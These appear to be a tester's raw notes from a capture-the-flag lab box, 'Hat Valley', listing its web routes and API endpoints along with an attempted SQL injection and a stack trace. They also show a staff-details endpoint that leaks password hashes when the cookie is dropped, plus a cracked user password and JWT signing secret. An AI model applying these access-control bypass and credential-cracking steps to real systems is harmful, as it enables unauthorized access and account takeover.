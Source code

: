 # /
## Console
JQMIGRATE: Migrate is installed, version 3.0.1
[HMR] Waiting for update signal from WDS...
[WDS] Disconnected!
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://localhost:8080/sockjs-node/info?t=1669198469285. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200.

# JQMIGRATE: Migrate is installed, version 3.0.1
Is from [1]. jQuery migrate plugin

# [WDS] Disconnected!
Webpack
Vue app

# [HMR] Waiting for update signal from WDS...
Hot Module Reloading
Vulnerability: [2][3] 

# Debugger
Source code found!

# GET /hr
# GET /dashboard
# GET /leave

# API
# GET /api/all-leave
# POST /api/submit-leave
{reason: '', start: '', end: ''}

# POST /api/login
{username:'',
password:''}
SQLi with Burp unsuccessfull with /opt/wordlists/quick-SQLi.txt

# GET /api/staff-details
```
JsonWebTokenError: invalid signature<br> &nbsp; &nbsp;at /var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:133:19<br> &nbsp; &nbsp;at getSecret (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:90:14)<br> &nbsp; &nbsp;at Object.module.exports [as verify] (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:94:10)<br> &nbsp; &nbsp;at /var/www/hat-valley.htb/server/server.js:151:30<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:144:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:114:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/www/hat-valley.htb/node_modules/express/lib/router/index.js:284:15<br> &nbsp; &nbsp;at Function.process_params (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:346:12)
```
# GET /api/store-status
?url=URL

# GET /api/staff-details
REMOVE COOKIE
Output:
```json
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]
```
```
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY5Mjk5NTk2fQ.7Ha-hI9icbi5jIGAUIHQG1TLhCOLYlWDXZV9gfFYCIk:123beany123
```

